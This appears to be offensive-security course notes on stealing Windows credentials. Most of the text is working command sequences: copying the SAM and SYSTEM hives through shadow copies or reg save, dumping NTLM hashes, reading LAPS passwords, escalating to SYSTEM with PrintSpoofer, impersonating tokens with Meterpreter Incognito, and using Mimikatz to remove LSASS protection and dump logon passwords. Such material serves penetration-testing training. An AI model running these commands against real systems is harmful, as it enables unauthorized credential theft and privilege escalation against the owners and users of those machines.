 ## Local Windows Credentials

Local Windows credentials are stored in the Security Account Manager (SAM) database password hashes using the NTLM hashing format, which is based on MD4 algorithm. The windows has a build in
Administrator account. The account is disabled by defult on window workstation since Vista. Howevere, the account is enabled on servers by default. This could be an possible attack factor.
All Windows account has a unique Security Identifier(SID) with the following format. 

```
S-R-X-Y1-Y2-Yn-1-Yn
```

```
|Comment |Description
|S       | Indicates that the string is a SID
|R       | Indicates the revision level
|X       | Indicates the identifier authority value
|Y       | Represents a series of subauthority values, where n is the number of values
```

#### Copy SAM

We can use Volume Shadow Copy Server to create a snapshot of the lical hard drive. And copy the sam from local hard drive.

Create a snapshot, and verify with vssadmin
```
C:\> wmic shadowcopy call create Volume='C:\'

C:\> vssadmin list shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.
Contents of shadow copy set ID: {8e3a3a18-93a6-4b18-bc54-7639a9baf7b2}
Contained 1 shadow copies at creation time: 11/14/2019 6:53:26 AM
Shadow Copy ID: {13fb63f9-f631-408a-b876-9032a9609c22}
Original Volume: (C:)\\?\Volume{a74776de-f90e-4e66-bbeb-1e507d7fa0d4}\
Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
```

Copy sam databsae from shadows, and copy the encryption keys from system file(neeed to create s shadow copy first)
```
C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\offsec.corp1\Downloads\sam

C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\offsec.corp1\Downloads\system
```

Don't forget to delete the shadows, {e0331775-2d51-48dc-817e-007a5b97b885} is the shadowID
```
vssadmin delete shadows /shadow={e0331775-2d51-48dc-817e-007a5b97b885} /quiet
```

We can also copy sam and system file from reg key

```
C:\> reg save HKLM\sam C:\users\offsec.corp1\Downloads\sam
C:\> reg save HKLM\system C:\users\offsec.corp1\Downloads\system
```

Now we can decrypt and dump NTLM hash with [creddump.py](https://github.com/CiscoCXSecurity/creddump7)
```
samdump2 ~/system ~/sam
```

In 2015, Microsoft released Local Administrator Password Solution (LAPS), which offered a
secure and scalable way of remotely managing the local administrator password for domainjoined computers. If LAPS is in use, we should try to gain access to the clear text passwords in Active Directory.

we can use the [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) PowerShell script

```
PS C:\Tools> Import-Module .\LAPSToolkit.ps1
PS C:\Tools> Get-LAPSComputers
```
## Access Token and Elevation with Impersonation token

An access token is created by the kernel upon user authentication and contains important values that are linked to a specific user through the SID. Local administrators receive two access tokens when authenticating. The first (which is used by default) is configured to create processes as medium integrity. When a user selects the “Run as administrator” option for an application, the second elevated token is used instead. The User Account Control (UAC) mechanism links these two tokens to a single user and
creates the consent prompt.

Privileges are also included in the access token. if the present privileges are enabled or disabled and may be
dynamically updated through the Win32 AdjustTokenPrivileges API. For example, a user has SeShutdownPrivilege disabled, if the user oose to shut down the computer through the shutdown command the back-end code will enable the privilege with AdjustTokenPrivileges and then perform the required actions to power off the operating system. We can add/update accounts's permission/token though **secpol.msc**.

There are many different token privilege escalation ttp discussed in this [blog](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/). We create a c# code [PrintSpooferNet](/10WindowsCred/PrintSpofferNet.cs) that allow us to escalate permission to system account when the current user has SeImpersonatePrivilege.

Our PrintSpooferNet code use [PrintSpoofer attack](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) that relies on windows pipes. The attack is based on the fact that the print spooler monitors printer object changes and sends change notifications to print clients by connecting to their respective named pipes. If we can create a process running with the SeImpersonatePrivilege privilege that simulates a print client,
we will obtain a SYSTEM token that we can impersonate.

A pipe is a section of shared memory inside the kernel that processes can use for communication. One process can create a pipe (the pipe server) while other processes can
connect to the pipe (pipe clients) and read/write information from/to it, depending on the permission.

we can use the [SpoolSample](https://github.com/leechristensen/SpoolSample) C# implementation written by Lee Christensen to call MS-RPRN APIs. And run our PrintSpooferNet.cs 
code to catch the pie connection.

start the connection
```
C:\user> SpoolSample.exe targetserverName targetserver/pipe/test
```
wait for connection and and steal system token to open cmd
```
C:\user> PrintSpooferNet.exe \\.\pipe\test\pipe\spoolss
```

#### Meterpreter Incognito
Meterpreter Incognito module to impersonate any logged in users and obtain code execution in their context without access to any passwords or hashes.

Load module
```
meterpreter > load incognito
Loading extension incognito...Success.
```

list all currently used tokens by unique username
```
meterpreter > list_tokens -u
Delegation Tokens Available
========================================
corp1\admin
IIS APPPOOL\DefaultAppPool
NT AUTHORITY\IUSR
```

Impersonate
```
meterpreter > impersonate_token corp1\\admin
[+] Delegation token available
[+] Successfully impersonated user corp1\admin
meterpreter > getuid
Server username: corp1\admin
```

#### Mimikatz

If a user has SeDebugPrivilege, the user can read and modify a process under the ownership of a different user. We can use Mimikatz
privilege::debug command to enable the SeDebugPrivilege by calling AdjustTokenPrivileges.

```
C:\Tools\Mimikatz> mimikatz.exe
mimikatz # privilege::debug
Privilege '20' OK
```
After enabled the SeDebugPrivilege privilege, we can dump cached password and hashes from LSASS
```
mimikatz # sekurlsa::logonpasswords
```

Since 2012 Microsoft has developed mitigation techniques: LSA Protection and Windows Defender Credential Guard.This means that a process running at SYSTEM integrity cannot access or modify the memory space of a process executing at SYSTEM integrity with level, Protected Processes Light (PPL) enabled.

```
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```
PPL protection is controlled by a bit residing in the EPROCESS kernel object associated with the
target process. If we could obtain code execution in kernel space, we could disable the LSA
protection and dump the credentials.

this can be achieved with Mimikatz since it comes bundled with the mimidrv.sys driver. If we are running as admin, we have SeLoadDriverPrivilege privilege and the ability to load any signed drivers.
```
mimikatz # !+
[*] 'mimidrv' service not present
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service ACL to everyone
[+] 'mimidrv' service started
```

after loading the driver, we can disable the PPL protection, and dump the hashs
```
mimikatz # !processprotect /process:lsass.exe /remove
Process : lsass.exe
PID 536 -> 00/00 [0-0-0]

mimikatz # sekurlsa::logonpasswords
```

#### Memory dumping the LSASS

We can create a lsass dump file from task manager. And retrive the hashs from dumped file

![image](https://user-images.githubusercontent.com/24555370/145666196-39a66a44-e96d-4fa3-9ac8-f86ffbac06b3.png)

dump the hash by first loading the dumped file, and run sekurlsa::logonpasswords
```
mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'


mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...
Authentication Id : 0 ; 32785103 (00000000:01f442cf)
Session : RemoteInteractive from 1
User Name : admin
```

#### C# code to dump the lsass

We can write our own application [minidump.cs](/10WindowsCred/minidump.cs) in C# to memory dump lsass.
